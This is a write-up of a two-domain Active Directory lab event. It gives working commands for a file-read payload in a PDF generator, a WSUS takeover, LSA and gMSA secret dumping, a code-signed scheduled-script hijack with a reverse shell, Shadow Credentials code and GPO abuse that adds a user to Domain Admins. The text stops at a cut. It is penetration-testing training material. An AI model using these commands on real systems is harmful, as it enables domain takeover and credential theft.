Hello ! Today i'm going to share a write-up of an AD lab that i completed [with the Kenolab's team](https://x.com/kenolab_fr/)

The lab was created and presented by **[mpgn](https://x.com/mpgn_x64)** and **[mael91620](https://x.com/mael91620)**

It was a lab involving 2 domains and 5 machines - we had half a day to complete it but we finished it in 6 hours and got **9 out of 12** first bloods & finishing in first at the end of the event !!



I'm writing this write-up based on the notes i took during the lab so I don’t have many screenshots - I wasn't able to repeat the lab to take any - I hope the write-up will still be cool !

```text
TROY.LAB
└── ECKMUL.troy.lab          10.3.10.10  DC + ADCS
└── GLININ.troy.lab          10.3.10.11  IIS
└── KANDHAR.troy.lab         10.3.10.12  Windows Server with WSUS

DARSHAN.LAB
└── DARSHANIDE.darshan.lab   10.3.10.20  DC + ADCS
└── ORAZUR.darshan.lab       10.3.10.32  Linux Server
```

---

## Before Starting

```console
sudo wg-quick up ./troy01-04.conf

my ip ➜ 198.51.100.44
```

## TROY.LAB

### 1. Web part

Above all, NTLM was completely disabled so all actions we carried out had to go through Kerberos

```bash
nxc smb ECKMUL.troy.lab --generate-krb5-file krb5-troy.conf
```

```ini
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    rdns = false
    default_realm = TROY.LAB

[realms]
    TROY.LAB = {
        kdc = eckmul.troy.lab
        admin_server = eckmul.troy.lab
        default_domain = troy.lab
    }
    DARSHAN.LAB = {
        kdc = darshanide.darshan.lab
        admin_server = darshanide.darshan.lab
        default_domain = darshan.lab
    }

[domain_realm]
    .troy.lab = TROY.LAB
    troy.lab = TROY.LAB
    .darshan.lab = DARSHAN.LAB
    darshan.lab = DARSHAN.LAB
```

```bash
nmap -Pn -n -T4 -sV -iL ip.txt


Nmap scan report for 10.3.10.32

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.3.10.20

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-18 09:03:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darshan.lab0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darshan.lab0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darshan.lab0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darshan.lab0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: DARSHANIDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.3.10.10

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-18 09:03:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.lab0., Site: Council-of-Sages)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: troy.lab0., Site: Council-of-Sages)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.lab0., Site: Council-of-Sages)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: troy.lab0., Site: Council-of-Sages)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ECKMUL; OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.3.10.12

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.3.10.11

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### 2. Reading files using the PDF generator on GLININ

The `GLININ` website allows users to generate a PDF from a user-controlled field - The HTML content provided in the `goods` parameter is interpreted by the rendering engine.

We can also include a local resource using a `file://` URL - after several tests / enumerations the relevant file is :

```text
C:\inetpub\portal\web.config
```

The payload in the form `goods` is :

```html
<iframe src="file:///C:/inetpub/portal/web.config"></iframe>
```

Inside this file, we were able to find : 
```
- a leak of the share's name `\\GLININ\IT$`
- an base64 encoded PFX belonging to `cixi@troy.lab`
- the PFX password
```

### 3. First account in TROY.LAB

We can use the .pfx file to obtain our first valid account within the domain

```bash
base64 -d cixi-pfx.b64 > cixi.pfx
```

```bash
certipy auth -pfx cixi.pfx -password 'oPd....wpmf' -username cixi -domain troy.lab -dc-ip 10.3.10.10

export KRB5CCNAME=cixi.ccache
```


To summarize, here is the chain that allowed us to obtain our first valid account in the troy.lab domain



### 4. READ on `IT$`

The Cixi account allowed us to read the `IT$` share

```bash
nxc smb GLININ.troy.lab -u cixi --use-kcache --shares
```

A file named `dispatch.txt` was found in the share - it noted that the `IT team` had reported that a workstation was still connecting to the old WSUS server, even though it had been taken offline.

The affected client was `KANDHAR` and the destination was `wsus.troy.lab` with a connection approximately every two minutes.

```bash
nxc smb GLININ.troy.lab -u cixi --use-kcache --share IT$ --get-file 'dispatch.txt' dispatch.txt
```

### 5. WSUS takeover - ESC17

The note found in `IT$` gave us a very important piece of information - `KANDHAR` was still trying to reach `wsus.troy.lab` approximately every two minutes, even though the old WSUS server no longer existed.

However, `KANDHAR` was reaching `wsus.troy.lab` on port `8531` - so we needed a .pem certificate to provide in order for the attack to succeed.

The `TroyTLS` template was enrollable by machine accounts, not directly by `cixi`, so we first created a computer account controlled by us. The account used during the lab was `WSUSCERT$` :

```bash
addcomputer.py -method SAMR -computer-name 'WSUSCERT$' -computer-pass 'WsusCert321!' 'TROY.LAB/cixi' -k -no-pass -dc-host ECKMUL.troy.lab
```

We requested a TGT for the new machine account :

```bash
getTGT.py -dc-ip 10.3.10.10 'TROY.LAB/WSUSCERT$:WsusCert321!'
```

```bash
export KRB5CCNAME=WSUSCERT\$.ccache
```

We then used `WSUSCERT$` to request a certificate from `TroyTLS` with `wsus.troy.lab` in the DNS SAN :

```bash
certipy req -k -no-pass -u 'WSUSCERT$@troy.lab' -dc-ip 10.3.10.10 -dc-host ECKMUL.troy.lab -target ECKMUL.troy.lab -target-ip 10.3.10.10 -ca TROY-CA -template TroyTLS -dns wsus.troy.lab -out wsus.pfx
```

Certipy saved the certificate and its private key in `wsus.pfx` - We converted the PFX to the PEM format expected by `wsuks` and checked the resulting certificate :

```bash
openssl pkcs12 -in wsus.pfx -out wsus.pem -nodes -passin pass:
```

```bash
openssl x509 -in wsus.pem -noout -subject -issuer -ext subjectAltName
```

The output confirmed that the certificate was issued by `TROY-CA` and contained `DNS:wsus.troy.lab`.

```bash
export KRB5CCNAME=cixi.ccache

bloodyAD -u cixi -k -d troy.lab --host ECKMUL.troy.lab add dnsRecord wsus 198.51.100.45
```

At that point, `wsus.troy.lab` resolved to our address and we had a certificate trusted by the client - We started the fake WSUS server wsuks :

```bash
wsuks --serve-only -I mpgn --WSUS-Server wsus.troy.lab --WSUS-Port 8531 --tls-cert /tmp/wsus.pem -u cixi -d troy.lab
```

`--serve-only` starts the WSUS endpoint and waits for the already configured client to connect, while `--tls-cert` provides the certificate trusted by `KANDHAR`.

Once `KANDHAR` contacted our server, the update chain gave us code execution on the machine - From there we can simply add the `cixi` account to the `KANDHAR` local administrators



Once we were here, we could just dump `LSA` to get the AES key for the machine account 

```bash
➜ nxc smb KANDHAR.troy.lab -u cixi --use-kcache
SMB         KANDHAR.troy.lab 445    KANDHAR          [*] Windows Server 2022 Build 20348 x64 (name:KANDHAR) (domain:troy.lab) (signing:True) (SMBv1:False)
SMB         KANDHAR.troy.lab 445    KANDHAR          [+] TROY.LAB\cixi from ccache (admin)

➜ nxc smb KANDHAR.troy.lab -u cixi --use-kcache --lsa
SMB         KANDHAR.troy.lab 445    KANDHAR          [*] Windows Server 2022 Build 20348 x64 (name:KANDHAR) (domain:troy.lab) (signing:True) (SMBv1:False)
SMB         KANDHAR.troy.lab 445    KANDHAR          [+] TROY.LAB\cixi from ccache (admin)
SMB         KANDHAR.troy.lab 445    KANDHAR          [*] Dumping LSA secrets
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY.LAB/Administrator:$DCC2$10240#Administrator#ecb1434cbb5a5fbe144b17f6d48ab11e: (2026-09-17 16:10:45)
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY\KANDHAR$:aes256-cts-hmac-sha1-96:59a6c38e82bbf96e266787d836c7c09af3462dd295d88424150116db84221c8c
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY\KANDHAR$:aes128-cts-hmac-sha1-96:502403c6f9b454ee4f4c87e6310cce8c
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY\KANDHAR$:des-cbc-md5:baea135ec4cd94df
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY\KANDHAR$:plain_password_hex:6d00..021006100
SMB         KANDHAR.troy.lab 445    KANDHAR          TROY\KANDHAR$:aad3b435b51404eeaad3b435b51404ee:da76f951c715348358c0f07c6407ed27:::
```


### 6. Getting a TGT as `KANDHAR$`

```bash
getTGT.py -dc-ip ECKMUL.troy.lab 'TROY.LAB/KANDHAR$' -aesKey 59a6c38e82bbf96e266787d836c7c09af3462dd295d88424150116db84221c8c

export KRB5CCNAME=KANDHAR\$.ccache
```

### 7. Reading the password of `gmsa-hebus$`

A gMSA password is stored in the protected `msDS-ManagedPassword` attribute - Only the principals listed in `PrincipalsAllowedToReadPassword` can retrieve it.

In this case, `KANDHAR$` was explicitly allowed to read the password of `gmsa-hebus$` :

```bash
nxc ldap ECKMUL.troy.lab -u "KANDHAR$" --use-kcache --gmsa

LDAP        ECKMUL.troy.lab 389    ECKMUL           [*] None (name:ECKMUL) (domain:TROY.LAB) (signing:Unknown) (channel binding:Unknown) (NTLM:False)
LDAP        ECKMUL.troy.lab 389    ECKMUL           [+] TROY.LAB\KANDHAR$ from ccache
LDAP        ECKMUL.troy.lab 389    ECKMUL           [*] Getting GMSA Passwords
LDAP        ECKMUL.troy.lab 389    ECKMUL           Account: gmsa-hebus$          NTLM: b264a31d114f03968b373cf446bc6a83     PrincipalsAllowedToReadPassword: KANDHAR$
LDAP        ECKMUL.troy.lab 389    ECKMUL           Account: gmsa-hebus$          aes128-cts-hmac-sha1-96: af70d5cd9e33afcc9f31176b4c73fe79
LDAP        ECKMUL.troy.lab 389    ECKMUL           Account: gmsa-hebus$          aes256-cts-hmac-sha1-96: ce8910e995df46b0641aa15510cb16e497c39edca36e3aa3f1eec09c157ec049
```

We requested a TGT using the AES key returned by NetExec :

```bash
getTGT.py -dc-ip 10.3.10.10 'TROY.LAB/gmsa-hebus$' -aesKey ce8910e995df46b0641aa15510cb16e497c39edca36e3aa3f1eec09c157ec049

export KRB5CCNAME=gmsa-hebus\$.ccache
```

To summarize, here is the chain that allowed us to obtain `gmsa-hebus$`



### 8. Obtaining a code-signing certificate

The `IT$` share contained the following script :

```text
\\GLININ.troy.lab\IT$\scripts\maintenance.ps1
```

In the file we were able to find this :

```powershell
# Scheduled portal maintenance (TroyMaintenance task).
# Runs periodically (~2 min) by the scheduler, under a dedicated service account.
# Corporate policy: scripts in this folder MUST be signed (code-signing, TROY-CA chain).
Write-Output ("[maintenance] heartbeat " + (Get-Date -Format o))
```


Needless to say, the contents of the file speak for themselves - we must enumerate the ADCS right away 

ADCS enumeration showed that `gmsa-hebus$` could enroll in the `TroyCodeSigning` template.



```console
2
    Template Name                       : TroyCodeSigning
    Display Name                        : TroyCodeSigning
    Certificate Authorities             : TROY-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Code Signing
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-09-17T16:16:12+00:00
    Template Last Modified              : 2026-09-17T16:16:12+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TROY.LAB\gmsa-hebus
      Object Control Permissions
        Owner                           : TROY.LAB\Enterprise Admins
        Full Control Principals         : TROY.LAB\Domain Admins
                                          TROY.LAB\Local System
                                          TROY.LAB\Enterprise Admins
        Write Owner Principals          : TROY.LAB\Domain Admins
                                          TROY.LAB\Local System
                                          TROY.LAB\Enterprise Admins
        Write Dacl Principals           : TROY.LAB\Domain Admins
                                          TROY.LAB\Local System
                                          TROY.LAB\Enterprise Admins
    [+] User Enrollable Principals      : TROY.LAB\gmsa-hebus
```

```bash
export KRB5CCNAME=gmsa-hebus\$.ccache

certipy req -k -no-pass -u 'gmsa-hebus$@TROY.LAB' -dc-ip 10.3.10.10 -target ECKMUL.troy.lab -ca TROY-CA -template TroyCodeSigning -out gmsa-hebus-codesign
```

This gave us `gmsa-hebus-codesign.pfx` - Containing a certificate whose EKU allowed PowerShell code signing.

### 9. Abusing `TroyMaintenance`

The comments gave us the full picture - the script was executed approximately every two minutes under a dedicated domain account and the launcher only accepted scripts signed by the TROY CA.

The code-signing certificate obtained as `gmsa-hebus$` allowed us to satisfy this policy - On a Windows preparation host, we imported the PFX and signed our reconnaissance script :

```powershell
$cert=Import-PfxCertificate -FilePath C:\Windows\Tasks\gmsa-hebus-codesign.pfx -CertStoreLocation Cert:\CurrentUser\My

Set-AuthenticodeSignature -FilePath C:\Windows\Tasks\maintenance.ps1 -Certificate $cert -HashAlgorithm SHA256
```

We just overwrited and added a PowerShell reverse shell to the script. :

```powershell
powershell -e JAB...CgAKQA=
```

We uploaded the signed file over the legitimate maintenance script :

```bash
nxc smb GLININ.troy.lab -u 'gmsa-hebus$' --use-kcache --share IT$ --put-file maintenance.ps1 '\scripts\maintenance.ps1'
```

And as expected, our code runs because the script is executed every 2 minutes - The task executed it as `TROY\lanfeust`




Here is the chain that allowed us to obtain a shell as `lanfeust`



### 11. Shadow Credentials - from `lanfeust` to `nicolede`

BloodHound showed the following edge :



`GenericWrite` allowed `lanfeust` to modify `msDS-KeyCredentialLink` on the `nicolede` user. This attribute is used by `Windows Hello for Business` and can contain public keys accepted by the KDC for PKINIT.

Normally, this edge can be abused directly with tools such as `Whisker`, `pyWhisker` or `certipy shadow` - In our case, we did not actually possess the credentials of `lanfeust` - we had neither its password, its NT hash nor a reusable Kerberos ticket - What we controlled was the signed `maintenance.ps1` file, which the scheduled task executed as `lanfeust` every two minutes. 

In other words, we had code execution in its security context but we could not simply authenticate from our Linux machine as `lanfeust` and ask `certipy shadow` or `pyWhisker` to perform the LDAP modification for us.

Running `Whisker.exe` directly on GLININ was not an option either - The host was protected by WDAC / Device Guard and refused to execute our binary - Signing a copy with the certificate obtained from `TroyCodeSigning` did not help because a valid Authenticode signature was not enough to satisfy the WDAC allow policy. 

The interactive PowerShell path was also running in Constrained Language Mode which blocked the non-core .NET method calls required by the usual in-memory implementations - This is why trying to perform the complete operation directly from that shell was unreliable.

We therefore split the attack into two parts - All the cryptographic work was performed locally on our machine where we could freely generate the key pair, certificate and serialized `KeyCredential` - We then kept the private key locally and placed only the public DN-Binary value inside a very small PowerShell script.

After signing that script with the trusted code-signing certificate, we uploaded it as `maintenance.ps1` - The legitimate scheduled task then performed the single LDAP write as `lanfeust` which gave us the same result as Whisker without having to execute Whisker or authenticate remotely as `lanfeust`.

We generated the private key, the self-signed certificate and the matching `KeyCredential` locally :

```bash
python3 -m venv shadow-venv

source shadow-venv/bin/activate

pip install dsinternals cryptography

python generate_shadow_material.py --account nicolede --dn 'CN=nicolede,CN=Users,DC=troy,DC=lab' --out nicolede-shadow
```

```python
#!/usr/bin/env python3
import argparse
from pathlib import Path

from cryptography.hazmat.primitives.serialization import NoEncryption, pkcs12
from dsinternals.common.cryptography.X509Certificate2 import X509Certificate2
from dsinternals.common.data.hello.KeyCredential import KeyCredential
from dsinternals.system.DateTime import DateTime
from dsinternals.system.Guid import Guid


parser = argparse.ArgumentParser(description="Generate an offline PFX and matching AD KeyCredential")
parser.add_argument("--account", required=True)
parser.add_argument("--dn", required=True)
parser.add_argument("--out", required=True)
parser.add_argument("--password", default="")
args = parser.parse_args()

certificate = X509Certificate2(subject=args.account, keySize=2048, notAfter=3650)
credential = KeyCredential.fromX509Certificate2(
    certificate=certificate,
    deviceId=Guid(),
    owner=args.dn,
    currentTime=DateTime(),
)

if args.password:
    certificate.ExportPFX(args.out, args.password)
else:
    pfx_path = Path(args.out + ".pfx")
    pfx_path.parent.mkdir(parents=True, exist_ok=True)
    pfx = pkcs12.serialize_key_and_certificates(
        name=b"",
        key=certificate.key.to_cryptography_key(),
        cert=certificate.certificate.to_cryptography(),
        cas=None,
        encryption_algorithm=NoEncryption(),
    )
    pfx_path.write_bytes(pfx)
value = credential.toDNWithBinary().toString()
with open(args.out + "-value.txt", "w", encoding="ascii") as output:
    output.write(value + "\n")

print("PFX:", args.out + ".pfx")
print("KeyCredential:", args.out + "-value.txt")
print("DeviceID:", credential.DeviceId.toFormatD())
```



This produced two important files :

```text
nicolede-shadow.pfx
nicolede-shadow-value.txt
```

The PFX contained the private key and stayed on our machine - The text file contained the public `KeyCredential` serialized as an LDAP DN-Binary value :

```text
B:828:<KEYCREDENTIAL_HEX_BLOB>:CN=nicolede,CN=Users,DC=troy,DC=lab
```

`828` is the number of hexadecimal characters in the blob - The blob contains the public key, a device identifier, timestamps and the fields expected by Windows Hello for Business. These values were generated from our new key by DSInternals - they were not manually invented.

We placed the generated value inside a very small PowerShell payload :

```powershell
$u=[ADSI]'LDAP://ECKMUL.troy.lab/CN=nicolede,CN=Users,DC=troy,DC=lab';$u.Properties['msDS-KeyCredentialLink'].Add('<DN_BINARY_VALUE>');$u.CommitChanges();'shadow-added'
```

After signing this payload with the code-signing certificate, we replaced the maintenance script again :

```bash
nxc smb GLININ.troy.lab -u 'gmsa-hebus$' --use-kcache --share IT$ --put-file maintenance.ps1 '\scripts\maintenance.ps1'
```

At the next execution, the task ran as `lanfeust` and wrote the new value on `nicolede`.

And because we owned the corresponding private key - we could now authenticate as `nicolede` without knowing her password :

```bash
certipy auth -pfx nicolede-shadow.pfx -username nicolede -domain troy.lab -dc-ip 10.3.10.10

export KRB5CCNAME=nicolede.ccache
```


### 12. GPO abuse - Domain Admin in TROY

BloodHound showed that `nicolede` could modify the `Council-of-Sages Policy` GPO and could also modify the `gPLink` attribute of the `Council-of-Sages` site.



The GPO GUID was :

```text
{9A6A1B39-486F-471B-8A28-396C467A5ED9}
```

First, we linked the GPO to the site containing ECKMUL :

```bash
bloodyAD --host ECKMUL.troy.lab -d TROY.LAB -k set object 'CN=Council-of-Sages,CN=Sites,CN=Configuration,DC=troy,DC=lab' gPLink -v '[LDAP://CN={9A6A1B39-486F-471B-8A28-396C467A5ED9},CN=Policies,CN=System,DC=troy,DC=lab;0]'
```

This only told the machines in the site to apply the GPO - it did not add a malicious action by itself.

We then used `pygpoabuse` to add an immediate scheduled task to the GPO stored in SYSVOL :

```bash
python3 pygpoabuse.py 'TROY.LAB/nicolede' -k -gpo-id 9A6A1B39-486F-471B-8A28-396C467A5ED9 -dc-ip ECKMUL.troy.lab -f -command 'cmd.exe /c net group "Domain Admins" nicolede /add /domain'
```

When the DC applied the GPO, the task ran as `SYSTEM` and added `nicolede` to `Domain Admins`.

The old TGT did not contain the new group membership in its PAC, so we requested a fresh one using the same Shadow Credential :

```bash
certipy auth -pfx nicolede-shadow.pfx -username nicolede -domain troy.lab -dc-ip 10.3.10.10

export KRB5CCNAME=nicolede.ccache
```

We confirmed administrative access :

